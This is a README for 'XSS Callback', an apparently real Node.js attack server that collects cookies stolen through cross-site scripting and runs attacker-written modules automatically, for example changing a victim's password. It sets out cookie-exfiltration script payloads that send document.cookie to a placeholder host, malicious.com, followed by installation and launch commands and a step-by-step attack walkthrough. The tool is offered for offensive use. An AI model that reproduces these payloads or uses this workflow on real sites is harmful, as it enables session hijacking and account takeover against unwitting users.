 ### XSS Callback

XSS Callback is a tool allowing you to exploit XSS vulnerabilities.

This is a HTTP Server (developed in Node.js) that is listening on a specific port (defined when launching it).
Everytime a victim will load the malicious link with his own cookie, the server will automatically launch the *offensive* module that you've written. 

**Example of module : **

*After getting the user's cookie :*
- Send a request to change his password
- Log him out

### Basic exploitation of XSS 

One common way to exploit those flaws is to create a PHP file/CGI script that will harvest victim's cookies and collect them in some file/database. 

Example of those basic payload : 
```
<script>document.location='http://malicious.com/cookie.php?cookie='+document.cookie</script>
```

Then, the attacker will be able to re-use those information to hijack victim's session. Ok. 
<br />

### What to do with XSS Callback ? 

Instead of reading your file for victim's cookie, XSS Callback is doing **your** job by calling your *offensive* module,  dynamically loaded when starting the App. 

You just need to write your own module corresponding to the application you want to target and launch the application to be accessible from the outside. (On your server)

You don't have to wait and read a file anymore. You perform the attack directly when you receive some data on this specific URL. 
This is the concept of *event driven programming*. 
### Installation

Just clone the project : 
```
git clone git@github.com:PaulSec/XSS-Callback.git
```

Go in the directory and launch the application for the usage : 

```
cd XSS-Callback && node server.js
```

Usage is then displayed : 

```
Usage : node server.js <module.js> <port : default 8080>
```
### Use case


#### 1) Find a XSS

Ok, you got it! 

#### 2) Launch XSS Callback : 

On malicous.com, launch the tool : 

```
node server.js ./module/template.js 8080
```

#### 2) Insert your payload
Insert your payload on the website : 

```
<script>document.location='http://malicious.com/cookie/'+document.cookie</script>
```

#### 3) Check the console log
<br />
### License & Conclusion

Feel free to give your feedback, ask for new features for this tool. 
Moreover, if you need an example of how to write a module, don't hesitate. 

